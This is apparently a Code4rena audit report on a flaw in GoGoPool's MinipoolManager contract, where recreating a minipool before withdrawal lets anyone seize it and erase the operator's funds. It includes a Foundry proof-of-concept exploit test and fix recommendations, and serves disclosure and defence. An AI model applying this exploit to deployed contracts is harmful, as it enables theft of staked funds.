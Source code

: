 # Owner may lose funds if Minipool is recreated before funds are withdrawn

The `createMinipool` function of the `MinipoolManager` contract can be used to reinitialize an existing minipool and potentially lose user funds. If the given `nodeID` has an existing minipool index, then the state for the minipool is reset:

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L242-L247

```solidity
if (minipoolIndex != -1) {
	requireValidStateTransition(minipoolIndex, MinipoolStatus.Prelaunch);
	resetMinipoolData(minipoolIndex);
	// Also reset initialStartTime as we are starting a whole new validation
	setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".initialStartTime")), 0);
} else {
```

The check in `requireValidStateTransition` will succeed if the current status is `MinipoolStatus.Withdrawable` or `MinipoolStatus.Error`. During these two stages, node operator funds are still held by the protocol. `Withdrawable` is the state when Rialto finishes the stake successfully and returns the funds (stake and rewards) to the `MinipoolManager`, which stores them in the `Vault` contract. Similarly, `Error` happens when the multisig notifies an error in the stake and returns the funds to the `MinipoolManager`.

## Impact

If the minipool is recreated before funds are withdrawn, then those funds associated with the node operator (owner of the minipool) will be lost since the `createMinipool` function will override that state. This can happen accidentally by the node operator, or by a bad actor as the function has no access control in the path that recreated the minipool (i.e. it doesn't verify that the call is performed by the current owner of the minipool).

The owner of the minipool is overwritten in line 259 and staked amount in line 262:

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L259-L262

```solidity

259		setAddress(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".owner")), msg.sender);
   		setAddress(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".multisigAddr")), multisig);
   		setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".avaxNodeOpInitialAmt")), msg.value);
262		setUint(keccak256(abi.encodePacked("minipool.item", minipoolIndex, ".avaxNodeOpAmt")), msg.value);
```

The call to `resetMinipoolData` (line 244) will clear any pending reward also:

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L691-L693

```solidity
function resetMinipoolData(int256 index) private {
	...
	setUint(keccak256(abi.encodePacked("minipool.item", index, ".avaxTotalRewardAmt")), 0);
	setUint(keccak256(abi.encodePacked("minipool.item", index, ".avaxNodeOpRewardAmt")), 0);
	setUint(keccak256(abi.encodePacked("minipool.item", index, ".avaxLiquidStakerRewardAmt")), 0);
	...
}
```

## PoC

In the following test, an attacker reinitialized the minipool after it gets to the `Withdrawable` state. Node operator loses funds and control of the minipool.

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity 0.8.17;

import "./utils/BaseTest.sol";
import {FixedPointMathLib} from "@rari-capital/solmate/src/utils/FixedPointMathLib.sol";

contract AuditTest is BaseTest {
	using FixedPointMathLib for uint256;
	address private nodeOp;
	address private attacker;

	function setUp() public override {
		super.setUp();
		nodeOp = getActorWithTokens("nodeOp", MAX_AMT, MAX_AMT);
		attacker = getActorWithTokens("attacker", MAX_AMT, MAX_AMT);
	}

	function test_MinipoolManager_FundsLost() public {
		// Setup minipool and get to the withdrawable state by following the normal steps
		address liqStaker = getActorWithTokens("liqStaker", MAX_AMT, MAX_AMT);
		vm.prank(liqStaker);
		ggAVAX.depositAVAX{value: MAX_AMT}();

		uint256 duration = 2 weeks;
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint256 validationAmt = depositAmt + avaxAssignmentRequest;

		vm.startPrank(nodeOp);

		ggp.approve(address(staking), MAX_AMT);
		staking.stakeGGP(100 ether);
		MinipoolManager.Minipool memory mp = createMinipool(depositAmt, avaxAssignmentRequest, duration);

		vm.stopPrank();

		vm.startPrank(address(rialto));

		minipoolMgr.claimAndInitiateStaking(mp.nodeID);
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(mp.nodeID, txID, block.timestamp);

		skip(duration);

		uint256 rewards = 10 ether;
		deal(address(rialto), address(rialto).balance + rewards);
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(mp.nodeID, block.timestamp, rewards);

		vm.stopPrank();

		// Now minipool is in "withdrawable" state, attacker recreates minipool by calling createMinipool with nodeID
		vm.startPrank(attacker);

		ggp.approve(address(staking), MAX_AMT);
		staking.stakeGGP(100 ether);

		minipoolMgr.createMinipool{value: depositAmt}(mp.nodeID, duration, mp.delegationFee, avaxAssignmentRequest);

		// Attacker now owns the minipool, note that recreating the minipool wiped also the existing funds from nodeOp since state is overwritten in the createMinipool function
		MinipoolManager.Minipool memory updatedMp = minipoolMgr.getMinipool(mp.index);
		assertEq(updatedMp.status, uint256(MinipoolStatus.Prelaunch));
		assertEq(updatedMp.owner, attacker);
		assertEq(updatedMp.avaxTotalRewardAmt, 0);

		vm.stopPrank();
	}
}
```

## Recommendation

Ensure that funds have been withdrawn before allowing the minipool to be reinitialized. This means limiting the transitions between `Error` and `Withdrawable` to `Prelaunch`, the valid transitions should be from the `Canceled` state (funds are returned to the node operator when the minipool is canceled) or from the `Finished` state, after owner has withdrawn funds. Care must be taken also when dealing with the `Error` state. 

Also, if the minipool is reinitialized, consider adding a check to validate that the caller is the current owner of the minipool.

